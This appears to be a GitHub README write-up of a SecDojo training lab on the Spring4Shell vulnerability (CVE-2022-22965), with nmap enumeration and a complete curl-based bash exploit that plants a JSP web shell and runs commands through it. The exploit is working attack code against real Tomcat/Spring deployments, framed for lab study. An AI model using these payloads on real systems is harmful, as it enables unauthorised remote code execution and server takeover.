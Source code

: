 ![image](https://user-images.githubusercontent.com/48088579/163294479-53aa159b-590b-46af-9a3c-dc8436b654cb.png)

# spring4shell-secdojo
A write-up for SecDojo Spring4shell lab.

[SecDojo](https://www.sec-dojo.com/) CyberLabs is a cyber security learning platform where you can put in practice your theoretical knowledge throughout training in LAB environments in order to help you assess the required knowledge for a proper acquisition of the concepts.

# What is Spring4Shell vulnerability? A brief explanation of Spring4Shell.

Spring4Shell (CVE-2022-22965) is a bypass of the patch for CVE-2010-1622, the vulnerability allows the attacker to upload a .JSP web shell into the target machine allowing him/her to execute commands and gain control over the target.

Spring4Shell main core problem is related to how Spring MVC works to handle a specified class based on the parameters provided by the user, and this can be used to overwrite Tomcat logging properties to create a new malicious file using ClassLoader module.

# Spring4Shell Lab:

![image](https://user-images.githubusercontent.com/48088579/163294527-5c36d2de-05b4-43f2-b752-bab39ac5f2bd.png)

Target IP: 172.16.4.33

## Enumeration and Exploitation:
```
nmap -sC -sV 172.16.4.33 | grep open
```
```
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
```
A tomcat server is running on 8080 port redirecting us to /login-form/greeting, where we will use our malicious class and gain control using [exploit.py](https://github.com/reznok/Spring4Shell-POC/blob/master/exploit.py):

![image](https://user-images.githubusercontent.com/48088579/163294632-5d4c22ba-9340-4fb1-8b57-1f068fccd03c.png)

or shell version:

```bash
#!/bin/bash
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_" http://172.16.4.33:8080/login-form/greeting &>/dev/null

curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=webshell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=" http://172.16.4.33:8080/login-form/greeting &>/dev/null; sleep 3

curl -H "prefix: <%" -H "suffix: %>//" -H "c: Runtime" -H "Content-Type: application/x-www-form-urlencoded" http://172.16.4.33:8080/login-form/greeting &>/dev/null; sleep 1
```
Where our web shell in /webshell.jsp:
```bash
curl http://172.16.4.33:8080/webshell.jsp?cmd=id --output -
```
# Resources:
- https://www.trendmicro.com/en_no/research/22/d/cve-2022-22965-analyzing-the-exploitation-of-spring4shell-vulner.html
- https://unit42.paloaltonetworks.com/cve-2022-22965-springshell/
- https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/

